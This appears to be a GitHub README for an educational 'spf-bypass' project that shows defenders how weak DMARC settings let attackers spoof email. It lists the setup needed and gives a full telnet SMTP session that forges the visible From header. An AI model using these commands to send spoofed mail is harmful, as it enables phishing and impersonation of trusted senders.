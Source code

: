# spf-bypass
PLEASE NOTE THIS PROJECT WILL BE SUBJECT TO FREQUENT CHANGES

This project is meant to educate defenders and demonstrate the ease at which threat actors can abuse insecure domains for the delivery of spoofed email.
Utilising a security deficiency known as SPF-bypass, threat actors can deliver emails which provide no indication of malicious intent and can fool the most experienced Security professionals.

Please see https://dmarc.org/wiki/FAQ for a detailed overview of email authentication protocols (i.e. SPF, DKIM and DMARC).
Please see below for a detailed overview of how professionnal spammers bypass SPF where DMARC hasn't been setup in a hardened configuration.

Prerequisites to successfully deliver spoofed mail (utilising SPF-bypass techniques):
1. A domain you control (approx. cost $12-15 AUD/yr - see https://au.godaddy.com/)
2. A Server or VPN with a dedicated public IP that hasn't blocked outbound traffic over port 25 (approx. $80-150 AUD/yr)
3. Configure the DNS TXT Zone file for the purchased domain, to include the Server or VPN public IP in its public SPF record (see https://au.godaddy.com/help/add-an-spf-record-19218)

Upon completion of the above 3 steps, you'll be able to successfully demonstrate the delivery of spoofed mail utilising SPF-bypass techniques

To perform an SPF-bypass attack, simply run the below telnet commands that can be executed on any Windows or Linux endpoint. Replace <target.mailserver.com> with the target mail server you're delivering the spoofed email to (i.e. the recipient - lookup the MX record of the recipient domain to identify this), replace <attacker@attackerdomain.com> with the domain you procured and setup earlier, replace <Legitimate_Sender_spoofed.com> with the address and domain you're spoofing and replace <target@target.com.au> with your target recipient.

    telnet target.mailserver.com 25
    helo attackerdomain.com
    mail from: attacker@attackerdomain.com
    rcpt to: target@target.com.au
    data
    from: "Sender, Legitimate" <Legitimate_Sender@spoofed.com>
    to: target@target.com.au
    subject: Presentation - Email Demo
    This is a test

    .
